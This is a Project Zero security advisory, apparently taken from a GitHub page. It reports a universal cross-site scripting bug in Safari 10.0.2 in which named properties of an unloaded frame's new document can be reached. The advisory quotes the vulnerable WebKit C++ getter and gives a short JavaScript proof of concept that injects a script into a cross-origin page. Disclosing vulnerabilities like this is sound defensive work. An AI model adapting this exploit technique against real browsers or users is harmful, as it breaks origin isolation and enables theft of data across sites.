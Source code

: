 # UXSS by accessing a named property from an unloaded window

### Reported by <mailto:lokihardt@google.com>, Dec 23 2016

The frame is not detached from an unloaded window. We can access to the new document's named properties via the following function.

```cpp
static bool jsDOMWindowPropertiesGetOwnPropertySlotNamedItemGetter(JSDOMWindowProperties* thisObject, Frame& frame, ExecState* exec, PropertyName propertyName, PropertySlot& slot)
{
    ...
    Document* document = frame.document(); <<-------- the new document.
    if (is<HTMLDocument>(*document)) {
        auto& htmlDocument = downcast<HTMLDocument>(\*document);
        auto* atomicPropertyName = propertyName.publicName();
        if (atomicPropertyName && htmlDocument.hasWindowNamedItem(*atomicPropertyName)) {
            JSValue namedItem;
            if (UNLIKELY(htmlDocument.windowNamedItemContainsMultipleElements(*atomicPropertyName))) {
                Ref<HTMLCollection> collection = document->windowNamedItems(atomicPropertyName);
                ASSERT(collection->length() > 1);
                namedItem = toJS(exec, thisObject->globalObject(), collection);
            } else
                namedItem = toJS(exec, thisObject->globalObject(), htmlDocument.windowNamedItem(*atomicPropertyName));
            slot.setValue(thisObject, ReadOnly | DontDelete | DontEnum, namedItem);
            return true;
        }
    }

    return false;
}
```

PoC:

```js
"use strict";

let f = document.body.appendChild(document.createElement("iframe"));
let get_element = f.contentWindow.Function("return logo;");

f.onload = () => {
    f.onload = null;

    let node = get_element();

    var sc = document.createElement("script");
    sc.innerText = "alert(location)";
    node.appendChild(sc);
};

f.src = "https://abc.xyz/";
```

Tested on Safari 10.0.2(12602.3.12.0.1)
Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1063
